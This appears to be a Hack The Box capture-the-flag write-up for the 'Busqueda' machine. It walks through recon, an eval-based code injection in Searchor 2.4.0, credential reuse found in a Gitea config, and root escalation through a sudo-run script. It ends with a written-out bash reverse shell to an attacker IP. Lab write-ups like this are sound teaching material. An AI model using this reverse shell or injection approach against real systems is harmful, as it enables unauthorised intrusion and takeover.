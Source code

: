 # Busqueda

# Box Info

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled.png)

# Recon

## nmap

```jsx
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzAFurw3qLK4OEzrjFarOhWslRrQ3K/MDVL2opfXQLI+zYXSwqofxsf8v2MEZuIGj6540YrzldnPf8CTFSW2rk=
|   256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPTtbUicaITwpKjAQWp8Dkq1glFodwroxhLwJo6hRBUK
80/tcp open  http    syn-ack Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
|_http-title: Searcher
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website TCP 80

### Found searchor 2.4.0

The website had a feature of redirecting requests based on query and search engine provided.

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%201.png)

A brief look at the source of webpage tells us that it was using the **`version 2.4.0`** of the Seachor repository by ArjunSharda. It is a python based library which would give rediretable links based on queries for many search engines like amazon,google,etc.

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%202.png)

### Security Vulnerability patched in 2.4.2

We decided to have a look at the releases and source code for finding any vulnerable points.

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%203.png)

So there does seem to be something vulnerable which was not patched in `version 2.4.0`. Looking at the patch we can see that there is a vulnerable **`eval`** function used for processing the engine and query parameter which were being sent as post requests to the webserver.

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%204.png)

## Testing for Command Injection

To test for command injection, we fired up Burp and intercepted the requests. The requests were sent with `engine` and `query` parameters as POST parameters for further processing.

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%205.png)

Earlier, we observed that the code uses the `eval` function to process the query and engine. There are two potential attack points: the `engine` and `query` parameters. The `engine` parameter is used as a key for a dictionary of engines and their respective URLs. However, getting any response from the server using this parameter was difficult, as it did not return any response.

After trying the `query` parameter, we received favorable responses.

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%206.png)

The source code indicates that the query is being used as an argument to a function. We can successfully inject code by closing the function arguments and commenting out the rest of the arguments with `’)`. We know that multiple statements can be processed by `eval` with a delimiter of `“,”` and commenting out the rest of the code with `#` .

We tried injecting the `“id”` command and received a response indicating that the user is **svc**.

## Reverse Shell as `svc`

Now we can try a reverse shell.

We will host a malicious bash script on `port 8000` and inject the payload as follows:

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%207.png)

I got a **reverse shell** as **svc user** in the **/var/app/www** directory.

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%208.png)

### Hardcoded Credentials for `Cody`

Upon inspecting the existing directory, a `.git` folder was found with a `config` file containing credentials for user `Cody` with the subdomain of `gitea.searcher.htb`.

After conducting basic enumeration, two `Docker` instances were discovered to be running - one hosting the subdomain, and the other being a `MySQL` server.

This box had multiple instances of password reuse, with the password for `Cody` also being the password for the system user "`svc`".

The command "`sudo -l`" was tried to determine if any commands could be run as root.

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%209.png)

We can navigate to the /opt folder to find multiple scripts but no read access for regular user so we cant exploit it

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%2010.png)

There also seems to be a .git folder here which was a hint that these scripts were also in some repository.

### Subdomain gitea.searcher.htb

We attempted to determine if these were stored within a private repository belonging to user cody.

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%2011.png)

We checked user cody and it had the web server files for the searcher.htb website which was used for gaining foothold.

We can move on to executing the system-checkup.py for enumeration of dockers.

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%2012.png)

We can see two Docker instances with names suggesting one is the Gitea subdomain host and the other is for storing data in MySQL.

When we logged into the MySQL server, we found hashed passwords for the administrator and Cody. Breaking the passwords was an option, but there were also cron scripts resetting the passwords, so that wasn't the intended way. Another option was to edit the passwords ourselves with our own hashed passwords.

### Password reuse of administrator at gitea.searcher.htb as gitea_db_passwd

We attempted to log in as the administrator using the gitea database password, and it worked! We were able to access a private repository with scripts inside the opt directory.

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%2013.png)

During our enumeration, we ran `system-checkup.py` with the options **docker-ps**, **docker-inspect**, and **full-checkup**. However, the `full-checkup` command produced a vague "Something went wrong" output. This could potentially indicate a privilege escalation vulnerability in the attack vector.

Upon inspecting the source code, it appears that the `full-checkup` option executes any bash script with the name `full-checkup.sh` in the current working directory.

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%2014.png)

## Running Shell as Root

I created a `full-checkup.sh` script and learned an important lesson about using shebangs. Without it, the script would not execute properly.

```jsx
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.64/9001 0>&1
```

![Untitled](Busqueda%206c3aaf02c2034a228cbbc1e31a263ed0/Untitled%2015.png)